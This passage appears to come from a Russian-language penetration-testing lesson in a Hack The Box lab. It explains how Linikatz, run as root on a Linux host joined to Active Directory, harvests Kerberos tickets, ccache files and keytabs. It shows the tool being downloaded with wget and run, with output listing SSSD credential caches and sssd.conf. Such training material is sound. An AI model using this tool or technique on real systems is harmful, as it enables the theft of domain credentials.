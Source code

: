 ```cmd-session

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

---

## Линикац

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) — это инструмент, созданный группой безопасности Cisco для использования учетных данных на компьютерах с Linux при наличии интеграции с Active Directory. Другими словами, Линикац привносит аналогичный принцип в `Mimikatz`для среды UNIX.

Как `Mimikatz`, чтобы воспользоваться Liikatz, нам нужно быть root на машине. Этот инструмент будет извлекать все учетные данные, включая билеты Kerberos, из различных реализаций Kerberos, таких как FreeIPA, SSSD, Samba, Vintella и т. д. После извлечения учетных данных он помещает их в папку, имя которой начинается с `linikatz.`. Внутри этой папки вы найдете учетные данные в различных доступных форматах, включая ccache и keytabs. Их можно использовать по мере необходимости, как описано выше.

#### Загрузка и выполнение Linikaz

Загрузка и выполнение Linikaz

```shell-session
lizergindoma@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
lizergindoma@htb[/htb]$ /opt/linikatz.sh
 _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
-rw-rw-r-- 1 root root 8406312 Oct 10 19:53 /var/lib/sss/mc/passwd
-rw-r--r-- 1 root root 113 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/localauth_plugin
-rw-r--r-- 1 root root 40 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
-rw-r--r-- 1 root root 15 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/domain_realm_inlanefreight_htb
-rw-r--r-- 1 root root 12 Oct 10 19:55 /var/lib/sss/pubconf/kdcinfo.INLANEFREIGHT.HTB
-rw------- 1 root root 504 Oct  6 11:16 /etc/sssd/sssd.conf
I: [vintella-check] VAS AD configuration
I: [pbis-check] PBIS AD configuration
I: [samba-check] Samba configuration
```